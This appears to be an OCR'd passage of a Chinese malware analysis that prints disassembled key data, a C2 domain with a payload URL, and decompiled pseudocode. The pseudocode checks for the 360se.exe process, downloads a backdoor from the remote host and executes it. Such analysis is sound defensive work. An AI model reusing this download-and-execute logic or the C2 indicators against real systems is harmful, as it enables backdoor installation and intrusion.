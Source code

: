 ```
秘钥
.rdata:10024848 qword_10024848  dq 6D754E406E214843h    ; DATA XREF: sub_10001300+40r
.rdata:10024850 qword_10024850  dq 5352306631723338h    ; DATA XREF: sub_10001300+56r
.rdata:10024858 qword_10024858  dq 6B304A306E337275h    ; DATA XREF: sub_10001300+67r

https://officewps.net/ultra.jpg

C2：officewps.net
```

在 SignalInitializeCrashReporting 函数调用时

```c
void __noreturn SignalInitializeCrashReporting()
{
  void **v0; // edx@2
  int v1; // ecx@5
  __int16 v2; // [sp-18h] [bp-40h]@4
  int v3; // [sp-14h] [bp-3Ch]@7
  int v4; // [sp-10h] [bp-38h]@7
  int v5; // [sp-Ch] [bp-34h]@7
  SIZE_T v6; // [sp-8h] [bp-30h]@4
  int v7; // [sp-4h] [bp-2Ch]@4
  int v8; // [sp+Ch] [bp-1Ch]@8
  unsigned int v9; // [sp+1Ch] [bp-Ch]@7

  if ( !sub_10001870() )   //判断是否存在360se.exe 进程
  {
    v0 = &dword_100289F8;
    if ( (unsigned int)dword_10028A0C >= 8 )
      v0 = (void **)dword_100289F8;
    v7 = 7;
    v6 = 0;
    v2 = 0;
    if ( *(_WORD *)v0 )
      v1 = wcslen((const unsigned __int16 *)v0);
    else
      v1 = 0;
    sub_10004070((int)&v2, v0, v1);
    sub_10001E80(*(LPCWSTR *)&v2, v3, v4, v5, v6, v7); //调用URL 下载后门
    if ( v9 > 0xA )
    {
      v7 = 15;
      v6 = 0;
      LOBYTE(v2) = 0;
      sub_100032A0((int)&v8, 0, 0xFFFFFFFF);
      sub_10002040(*(void **)&v2, v3, v4, v5, v6, v7); //执行后门payload 
    }
    Sleep(0xFFFFFFFF);
  }
  ExitProcess(1u);
}


判断360se.exe是否运行
  pe.dwSize = 556;
  v1 = CreateToolhelp32Snapshot(2u, 0);
  if ( Process32FirstW(v1, &pe) && Process32NextW(v1, &pe) )
  {
    while ( 1 )
    {
      if ( !_wcsicmp(pe.szExeFile, L"360se.exe") )
      {
        ++v0;
```
